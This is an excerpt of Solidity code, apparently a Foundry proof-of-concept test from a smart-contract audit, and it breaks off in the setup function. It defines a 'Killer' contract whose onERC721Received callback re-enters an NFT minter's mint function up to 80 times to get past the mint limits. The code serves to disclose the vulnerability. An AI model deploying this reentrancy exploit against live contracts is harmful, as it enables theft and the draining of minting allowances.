 ```js
        bytes32[] calldata merkleProof,
        address _delegator,
        uint256 _saltfun_o
    ) external payable;
}

contract Killer is IERC721Receiver {
    IMinter _minter;
    uint256 private _collectionID;
    string private _tokenData;
    uint256 private _saltfun_o;
    uint256 _callCounter;

    constructor(address minter_) payable {
        _minter = IMinter(minter_);

        _tokenData = '{"tdh": "100"}';
        _collectionID = 1;
        _saltfun_o = 2;
    }

    // write ERC721Receiver implementer
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        _callCounter++;
        if (_callCounter <= 80) {
            _reenter();
        }

        return IERC721Receiver.onERC721Received.selector;
    }

    function _reenter() internal {
        _minter.mint{value: (1 ether)}(
            _collectionID, 1, 0, _tokenData, address(this), new bytes32[](1), address(0), _saltfun_o
        );
    }
}

contract t0x1cReentrancyInMint is Test {
    address public attacker;
    address public addr1;
    bytes32 public merkleRoot;
    bytes32 public merkleRoot_msgSender;
    bytes32[] public _merkleProof_msgSender;
    string[] public _collectionScript;

    DelegationManagementContract hhDelegation;
    randomPool hhRandoms;
    NextGenAdmins hhAdmin;
    NextGenCore hhCore;
    NextGenRandomizerNXT hhRandomizer;
    NextGenMinterContract hhMinter;

    Killer contractKiller;

    function setUp() public {
        attacker = makeAddr("anyone");
        addr1 = makeAddr("addr1");
        merkleRoot_msgSender = 0x208fae20dc5074374a223a1a825bfc23fbf2c9c88f5b092fa3421d54058170d3; // gives max allowance of 19 tokens in phase1
        _merkleProof_msgSender = new bytes32[](1);
```